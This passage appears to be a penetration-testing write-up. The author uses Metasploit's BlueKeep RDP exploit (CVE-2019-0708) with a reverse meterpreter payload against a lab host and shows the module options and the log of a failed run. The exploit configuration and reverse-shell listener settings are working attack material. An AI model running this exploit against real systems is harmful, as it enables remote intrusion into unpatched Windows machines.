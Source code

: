 At this point I realized that they had setup two networks behind NAT, and that attacking host 192.168.38.144 could only be done from a machine on that network. It turns out they had such a machine with TeamViewer. So I used that. 

Turns out that reverse_https exploit did not work for some reason, so  if a payload is not specified for bluekeep by default metasploit will try to use the windows/meterpreter/reverse_tcp payload, so actually I left it at that instead of messing around with reverse_https). The target machine ip was 192.168.38.144, my options now looked as below:

```
> options

Module options (exploit/windows/rdp/cve_2019_0708_bluekeep_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during 
   RDP_CLIENT_NAME  ethdev           no        The client computer name to report during 
   RDP_DOMAIN                        no        The client domain name to report during 
   RDP_USER                          no        The username to report during connect, 
   RHOSTS           192.168.38.141   yes       The target host(s), range CIDR identifier, 
   RPORT            3389             yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process
   LHOST     192.168.38.141   yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Automatic targeting via fingerprinting
```



Unfortunately running reverse_https failed with:

```
[*] Started HTTPS reverse handler on https://192.168.38.140:8443
[*] 192.168.38.141:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.38.141:3389   - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.38.141:3389   - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.38.141:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8028608000, Channel count 1.
[!] 192.168.38.141:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.38.141:3389 - Surfing channels ...
[*] 192.168.38.141:3389 - Lobbing eggs ...
[*] 192.168.38.141:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.38.141:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Exploit completed, but no session was created.
```
